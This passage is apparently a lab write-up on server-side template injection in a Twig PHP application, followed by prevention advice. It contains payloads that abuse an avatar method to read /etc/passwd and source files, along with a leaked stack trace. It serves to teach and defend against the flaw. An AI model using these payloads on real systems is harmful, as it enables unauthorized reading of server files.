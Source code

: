 This indicate that the method need 2 agrs, with the next payload: `user.setAvatar('cat+/etc/passwd', null)` the web returned 
```
PHP Fatal error: Uncaught Exception: Uploaded file mime type is not an image: in /home/carlos/User.php:28 Stack trace: #0 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Extension/Core.php(1601): User->setAvatar('cat /etc/passwd', NULL) 
...
```
From that we know the second arg should be the image file mime type, we can construct a payload: `user.setAvatar('/etc/passwd', 'image/png')`, and the page don't throw an error. Checking the content of the avatar in `/avatar?avatar=wiener` we got the `/etc/passwd` file content.

Now we can change the payload to read the file `/home/carlos/User.php`:




## How to prevent server-side template injection vulnerabilities

The best way to prevent server-side template injection is to not allow any users to modify or submit new templates. However, this is sometimes unavoidable due to business requirements.

One of the simplest ways to avoid introducing server-side template injection vulnerabilities is to always use a "logic-less" template engine, such as Mustache, unless absolutely necessary. Separating the logic from presentation as much as possible can greatly reduce your exposure to the most dangerous template-based attacks.

Another measure is to only execute users' code in a sandboxed environment where potentially dangerous modules and functions have been removed altogether. Unfortunately, sandboxing untrusted code is inherently difficult and prone to bypasses.

Finally, another complementary approach is to accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example. 